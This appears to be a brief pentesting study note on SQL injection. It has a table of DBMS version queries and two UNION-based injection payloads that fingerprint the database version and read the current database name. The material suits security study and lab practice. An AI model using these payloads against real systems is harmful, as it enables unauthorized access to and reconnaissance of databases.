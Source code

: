 ![](/assets/obsidian/be29ac8a0b030f19ec8954338a734b1b.png)


### Identify DMBS

| DBMS | Function |
|---|---|
|Oracle|`SELECT banner FROM v$version   SELECT version FROM v$instance   `|
|Microsoft|`SELECT @@version`|
|PostgreSQL|`SELECT version()`|
|MySQL|`SELECT @@version`|

```bash
'UNION SELECT ALL NULL,NULL,@@version -- -
```

![](/assets/obsidian/42aa466a7ef7b8c67c863c860d9b67f2.png)


### Get current database's name

```bash
'UNION SELECT ALL NULL,NULL, database() -- - 
```

![](/assets/obsidian/cd572f15d9f5410bcd7faf18eec3af65.png)
